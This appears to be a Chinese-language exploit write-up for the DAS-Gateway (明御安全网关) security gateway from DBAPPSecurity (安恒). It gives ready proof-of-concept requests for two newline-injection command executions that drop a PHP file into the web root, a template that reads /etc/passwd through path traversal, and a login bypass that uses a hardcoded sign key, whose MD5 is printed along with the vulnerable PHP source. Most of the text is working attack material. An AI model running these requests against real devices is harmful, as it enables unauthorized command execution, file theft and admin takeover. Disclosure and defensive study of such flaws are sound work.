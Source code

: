 # 安恒 明御安全网关 命令执行 任意文件读取漏洞

## 漏洞描述

安恒信息明御安全网关存在命令执行漏洞，导致攻击者可以直接执行系统命令，从而控制目标系统。

## 漏洞分析

参考阅读：

- https://r0fus0d.blog.ffffffff0x.com/post/oem-case/

## 漏洞复现

### 命令执行 1

漏洞 URL：

```
/webui/?g=aaa_portal_auth_local_submit&suffix=
```

poc：

```
/webui/?g=aaa_portal_auth_local_submit&suffix=%0aecho%20%27%3C%3Fphp%20echo%20%22test%20-%20Open%20source%20project%20%28github.com%2Ftest%2Ftest%29%22%3B%20phpinfo%28%29%3B%20%3F%3E%27%20%3E%3E%20%2Fusr%2Flocal%2Fwebui%2F111111112.php&bkg_flag=0
```

### 命令执行 2

漏洞 URL：

```
/webui/?g=aaa_portal_auth_config_reset&type=
```

poc：

```
/webui/?g=aaa_portal_auth_config_reset&type=%0aecho%20%27%3C%3Fphp%20echo%20%22test%20-%20Open%20source%20project%20%28github.com%2Ftest%2Ftest%29%22%3B%20phpinfo%28%29%3B%20%3F%3E%27%20%3E%3E%20%2Fusr%2Flocal%2Fwebui%2F111111111.php%0a
```

### 任意文件读取

poc：

```
requests:
  - method: GET
    path:
      - "{{BaseURL}}/webui/?g=sys_dia_data_down&file_name=../etc/passwd"
      - "{{BaseURL}}/webui/?g=sys_dia_data_check&file_name=../../../../../../../../etc/passwd"
      - "{{BaseURL}}/webui/?g=sys_capture_file_download&name=../../../../../../../../etc/passwd"
      - "{{BaseURL}}/webui/?g=sys_corefile_sysinfo_download&name=../../../../../../../../etc/passwd"
```

### 验证码绕过

poc：

```
/remote_auth.php?user=admin&pwd=admin&sign=ba84d9dd91eb304aca57f0a8f052623e
```

其中 sign 硬编码在 `/usr/local/webui/remote_auth.php` 中：

```php
if($_GET['user']!=null) $usr = formatget($_GET['user']);
if($_GET['pwd']!=null) $pwd = formatget($_GET['pwd']);
if($_GET['sign']!=null) $sign = formatget($_GET['sign']);
$key= 'saplingos!@#$%^&*';//这个key你们协商后保存一致即可
//ba84d9dd91eb304aca57f0a8f052623e
if(empty($usr)){
	die('user_null');
}
else if(empty($pwd)){
	die('pwd_null');
}
else if (!$sign){
	die('sign_null');
}
else if ($sign != md5($key)){
	die('sign_error');
}
else{
	if (isset($usr, $pwd)) {
		LoginHandler::login($usr, $pwd, $num,'',$remote_auth = true);
	}
	$fail_msg = '';
	if (LoginHandler::isLoginFail()) {
		$fail_msg = $_SESSION[ERROR_STR];
		if (strlen($fail_msg) <= 0) {
			$fail_msg = LocalUtil::getCommonResource('login_failed');
		}
		die($fail_msg);
	}
}
```

可以通过任意文件读取漏洞读取 key，然后进行爆破。